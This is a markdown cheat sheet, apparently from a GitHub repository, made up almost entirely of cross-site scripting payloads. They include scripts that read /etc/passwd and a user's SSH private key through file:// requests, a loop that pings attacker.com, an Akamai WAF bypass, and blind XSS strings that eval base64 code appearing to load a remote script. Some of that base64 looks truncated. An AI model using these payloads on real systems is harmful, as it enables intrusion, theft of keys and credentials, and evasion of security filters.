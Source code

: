 
### XSS to LFI Payloads

1. **Read `/etc/hosts` file:**
   ```html
   <script>
   x = new XMLHttpRequest();
   x.onload = function() {
       document.write(this.responseText);
   };
   x.open('GET', 'file:///etc/hosts');
   x.send();
   </script>
   ```

2. **Read `/etc/passwd` file:**
   ```html
   <script>
   x = new XMLHttpRequest();
   x.onload = function() {
       document.write(this.responseText);
   };
   x.open('GET', 'file:///etc/passwd');
   x.send();
   </script>
   ```

3. **Get SSH private key (`id_rsa`):**
   ```html
   <script>
   x = new XMLHttpRequest();
   x.onload = function() {
       document.write(this.responseText);
   };
   x.open('GET', 'file:///home/reader/.ssh/id_rsa');
   x.send();
   </script>
   ```

### XSS Payload for Server Pinging

**Ping the server continuously every 500ms:**
```html
<script>
let time = 500;
setInterval(() => {
    let img = document.createElement("img");
    img.src = `https://attacker.com/ping?time=${time}ms`;
    time += 500;
}, 500);
</script>
<img src="https://attacker.com/delay">
```

### Directory Bruteforcing Wordlist

For directory bruteforcing, use the following wordlist:

- [OneListForAll](https://github.com/six2dez/OneListForAll)

### Small XSS Payload List for Manual Testing

1. Basic XSS injection:
   ```html
   "><img src onerror=alert(1)>
   ```
2. Using `autofocus` and `onfocus` attributes:
   ```html
   "autofocus onfocus=alert(1)//
   ```
3. Injecting a `<script>` tag:
   ```html
   </script><script>alert(1)</script>
   ```
4. Simple alert injection:
   ```html
   '-alert(1)-'
   ```
5. JavaScript injection:
   ```html
   \'-alert(1)//
   javascript:alert(1)
   ```

### Store Payload in URL Fragment

**Payload that utilizes URL fragment for XSS:**
```html
"><script>eval(new URL(document.location.href+"#javascript:confirm(69)").hash.slice(1))</script>
```

### Akamai WAF Bypass XSS Payload

**Bypassing Akamai WAF:**
```html
<A href="javascrip%09t&colon;eval.apply${[jj.className+(23)]}" id=jj class=alert>Click Here</A>
```

### SVG-Based XSS Payload

**Using `data:` URL and `<svg>`:**
```html
"><img/src/style=html:url("data:,"><svg/onload=confirm(69)>")>
```

### Blind XSS Payloads

1. **Max Payload for Blind XSS (5-7 characters):**
   ```html
   '"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3Jgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vamVycnkuYnhzm9keS5hcHBlbmRDaGlsZChhKTs=&#61 onerror=eval(atob(this.id))>
   ```

2. **Another version of Blind XSS Payload:**
   ```html
   "'><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS57ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs=&#61 onerror=eval(atob(this.id))>
   ```

